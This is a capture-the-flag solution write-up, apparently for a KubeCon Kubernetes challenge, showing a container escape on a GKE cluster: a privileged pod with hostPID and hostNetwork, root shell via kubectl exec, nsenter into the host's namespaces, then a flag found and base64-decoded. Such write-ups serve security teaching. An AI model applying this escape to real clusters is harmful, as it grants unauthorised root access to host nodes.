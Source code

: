# Challenge 1 - Aut0m0tiv3 - Solution

Connect to GKE cluster:
```bash
gcloud container clusters get-credentials kubecon-na-22-ctf-1 --zone europe-central2-a --project cilium-dev
```

Modify the pod spec and include the "hostPID", "hostNetwork", "privileged" flags and set it to true:
```bash
cat car-the-privileged-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: car-the-privileged-pod
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: car-the-privileged-pod
    image: nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
```

Apply it:
```bash
kubectl apply -f car-the-privileged-pod.yaml
pod/car-the-privileged-pod created
```

Exec into pod:
```bash
kubectl exec -it car-the-privileged-pod -- /bin/bash
root@gke-kubecon-na-22-ctf-1-default-pool-554a053f-8xvk:/#
```

Enter into all the namespaces:
```bash
root@gke-kubecon-na-22-ctf-1-default-pool-554a053f-8xvk:/# nsenter -t 1 -m -u -n -i -p bash
gke-kubecon-na-22-ctf-1-default-pool-554a053f-8xvk / #
```

Find the flag:
```bash
gke-kubecon-na-22-ctf-1-default-pool-554a053f-8xvk / # find .  -name "*flag*" -print
./home/car_capital/f0rd_flag.png
```

The file is `./home/car_capital/f0rd_flag.png`

Get the content:
```bash
cat ./home/car_capital/f0rd_flag.png

aHR0cHM6Ly9kcml2ZS5nb29nbGUuY29tL2ZpbGUvZC8xTi12Nms0YVNpNnFvMXgyY3BJS1IwbjVW
R0dXMFh4a1Qvdmlldw==
```

Decode it from base64:
```bash
base64 -d ./home/car_capital/f0rd_flag.png

https://drive.google.com/file/d/1N-v6k4aSi6qo1x2cpIKR0n5VGGW0XxkT/view
```

Open the link, get the car picture :)
